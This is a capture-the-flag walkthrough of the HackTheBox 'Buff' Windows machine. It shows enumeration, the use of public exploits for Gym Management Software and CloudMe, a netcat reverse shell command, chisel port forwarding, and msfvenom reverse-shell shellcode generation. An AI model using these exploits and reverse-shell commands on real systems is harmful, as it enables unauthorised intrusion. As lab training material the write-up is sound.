 ```yaml
---
layout: post
title: "Buff"
date: 2022-03-14
categories: [HackTheBox, Easy-HTB]
tags: [Powershell, BurpSuite, Gym-Management-Software, Buffer-Overflow, searchsploit, msfvenom, chisel]
image: ../../assets/img/posts/Buff.png

---
```


|**Machine**|[Buff](https://app.hackthebox.com/machines/263)|
|:---:|:---:|
|**OS**|Windows|
|**Difficulty**|Easy|
|**Creator**|[egotisticalSW](https://app.hackthebox.com/users/94858)|

---

We'll start with connecting to HTB network by making connection with .ovpn file and then spin up machine. This box's IP is **10.10.10.198**.

Let's get started with nmap scan,

```bash
sudo nmap -T4 -A -p- -oN nmap_scan 10.10.10.198
```

![image](https://user-images.githubusercontent.com/67465230/158127315-4a5bdbfe-9e75-417a-b155-83c342b87580.png)

only 2 ports are open that are 7680 and 8080(http).

let's see what technologies are running on website,

```bash
whatweb http://10.10.10.198
```

![image](https://user-images.githubusercontent.com/67465230/158127329-c1b5f2bf-5a4b-4bc4-bdad-58946494037c.png)

let's visit http://10.10.10.198:8080/,

![image](https://user-images.githubusercontent.com/67465230/158127349-db60fb6f-4c9e-48da-8e2f-f3652a9e59a1.png)

let's bruteforce directories using gobuster,

```bash
gobuster dir -u http://10.10.10.198:8080 -w /usr/share/seclists/Discovery/Web-Content/common.txt -x txt,php 2>/dev/null
```

![image](https://user-images.githubusercontent.com/67465230/158127361-69f57ee3-d770-4c01-ae41-b09a8db42ccd.png)

let's visit /edit.php path and here we can edit information of our account so there must be a login page 

![image](https://user-images.githubusercontent.com/67465230/158127400-984eb1e0-760e-4924-8e9d-4bdf65ef22c2.png)

on register page it is showing and there is no method to get log into website so we'll do exploitation now.

![image](https://user-images.githubusercontent.com/67465230/158127418-392fdee7-7ee5-4ea1-8cc5-bac6cb337f32.png)

this website is made using Gym management software, so we'll look for this software's exploit,

![image](https://user-images.githubusercontent.com/67465230/158127433-e29220ab-3f55-4134-9d91-eb3fca102189.png)

now we'll search about this exploit in **searchsploit**,

```bash
searchsploit gym management
```

![image](https://user-images.githubusercontent.com/67465230/158127443-4a28e614-b825-46dc-93f8-865ee1234518.png)

and we can see that this gym management software.

We'll mirror this exploit to make some changes and then we'll run this exploit

```bash
searchsploit -m php/webapps/48506.py
```

![image](https://user-images.githubusercontent.com/67465230/158128719-81493494-fd88-4b66-bbaa-99c3a899cab3.png)

now we'll edit this exploit and add proxies to tunnel it'll with burp

![image](https://user-images.githubusercontent.com/67465230/158128736-b7bf28ac-35b5-491a-9f89-047ef9ae4334.png)
![image](https://user-images.githubusercontent.com/67465230/158128754-07fb460f-fa69-48f1-84c9-ded2256088b3.png)

now start burpsuite and then fire off this exploit 

```bash
python 48506.py http://10.10.10.198:8080/
```

![image](https://user-images.githubusercontent.com/67465230/158128767-a0e9ff91-0625-419f-a8b0-2ce3627ca69c.png)

now it'll wait for us to forward the request in burp suite in order to proceed further,

![image](https://user-images.githubusercontent.com/67465230/158128784-c4ae22e0-0115-4d17-ac26-1954c979a42b.png)

and after we've forward all the request in burp, we'll see that we've obtain the web-shell and there are some file that we can do further to improve our shell.

![image](https://user-images.githubusercontent.com/67465230/158128799-a457fe85-79b3-47d8-8c2e-9527b8e73041.png)

now since this is a web-shell, this shell won't let us do much like enumeration and exploitation. So we've to improve our shell in order to find flags. 

```bash
nc.exe 10.10.14.6 4444 -e powershell
```

![image](https://user-images.githubusercontent.com/67465230/158128813-2c8a4e5b-c4c1-4ed8-a46f-2683bf28525d.png)

now by doing this and starting netcat listener `nc -nvlp 4444`, we'll get our reverse shell.

![image](https://user-images.githubusercontent.com/67465230/158128821-f6a384c2-8052-4cc5-9a4e-40985df7eaef.png)

and to confirm that what level of user's we're type this .

now traversing to the shaun user's Desktop directory, we can see that there is a user's flag so grab that flag. 

![image](https://user-images.githubusercontent.com/67465230/158128836-fd5f4dd4-c585-4760-8663-9aad7b7b1fbf.png)

now we've to find the root flag and we'll navigate to Administrator's directory and we can see this message depicting that "Access is Denied".

![image](https://user-images.githubusercontent.com/67465230/158128851-fd7e559d-6ed1-4a9e-bd61-6b2c7a5f9194.png)

So now we've to do some priv esc in order to gain root access. So now we'll navigate around and i've found the db_connect.php file that'll maybe have login credentials.

![image](https://user-images.githubusercontent.com/67465230/158128870-b2bd45d0-48e9-4aac-bd92-f3bdedc910da.png)

by seeing the content of this **db_content.php** file, we've found that login credentials for connecting to mysql database is **root** with **no password**(**just hit enter when it prompt for password**).

```bash
type db_connect.php
```

![image](https://user-images.githubusercontent.com/67465230/158128883-64834f47-bc00-4eac-a176-4529615b906f.png)

and also we've found this CloudMe_1112.exe file that will maybe come handy in future.

![image](https://user-images.githubusercontent.com/67465230/158129872-b39f26a1-d442-4da6-bf90-e9bb08e2c808.png)

now in order to do port forwarding, we've to do find the open port on which we can connect to the database.

```bash
netstat -an
```

![image](https://user-images.githubusercontent.com/67465230/158129031-129907d8-b10b-4421-ba3a-d29429191796.png)

and by doing this we can see that we've have open ports which we can use them to connect to the database and also port **3306**(**mysql**) port is listening. 

```bash
netstat -an | findstr 127.0.0.1
```

![image](https://user-images.githubusercontent.com/67465230/158129048-e44766a3-0a64-4653-b913-0e45f47f4bd4.png)

now we'll do port forwarding in order to communicate with the database of the machine. Now clone chisel from github and setup in kali machine and then type the following in remote machine,

```bash
.\chisel.exe client 10.10.14.6:9002 R:3306 R:8888:localhost:8888
```

![image](https://user-images.githubusercontent.com/67465230/158129063-b9040c7d-3bf0-4689-8ca0-1d7018078052.png)

and in our machine, we have to run the chisel executable and then this will show

```bash
./chisel server --reverse --port 9002
```

![image](https://user-images.githubusercontent.com/67465230/158129076-84cdd0be-b565-4090-8bb7-e63321c77445.png)

it's showing that the port forwarding is successfully establish and now we'll try to connect to MYSQL database of the remote machine.

and connect to mysql instance of buff machine using,

```bash
mysql -u root -p -h 127.0.0.1
```

![image](https://user-images.githubusercontent.com/67465230/158129090-659d87ba-7f20-4502-a922-7e4f21790da5.png)

but after enumerating everything, we can't really find anything so now we'll jump back to our **CloudMe_1112.exe** file and search in **searchsploit** about this exploit.

```bash
searchsploit cloudme
```

![image](https://user-images.githubusercontent.com/67465230/158129100-c5aa56e2-e815-4194-9800-0c88ad4d9a92.png)

we can see that this is a buffer overflow exploit and now to see this we'll do and we'll see this exploit shellcode 

```bash
searchsploit -x windows/remote/48389.py
```

![image](https://user-images.githubusercontent.com/67465230/158129113-4d95b456-81e9-46be-bde6-4e516e8d081f.png)

and we've to replace this marked area with another shellcode

using this grep command, we'll find the msfvenom payload command and improve that command in order to make an effective payload

```bash
grep -i msfvenom 48389.py
```

![image](https://user-images.githubusercontent.com/67465230/158129120-26b15474-6885-4107-ac98-2e8cd51e20bd.png)

and then we'll just improve the shellcode or we'll just make a new shellcode

```bash
msfvenom -a x86 -p windows/shell_reverse_tcp LHOST=10.10.14.6 LPORT=9001 -b '\x00\x0A\x0D' -f python
```

![image](https://user-images.githubusercontent.com/67465230/158129134-487a739a-84d0-4d7b-9c71-238053e13e28.png)

and then copy this shellcode in the 48389.py file 

![image](https://user-images.githubusercontent.com/67465230/158129144-9b1e879d-622e-444e-bf50-5b29fe79ad6c.png)

and now start the netcat listener on port `nc -nvlp 4444` and then run this python file and we'll get reverse shell and when doing **whoami**, it'll show us that we're administrator and then grab the root flag from administrator user's directory.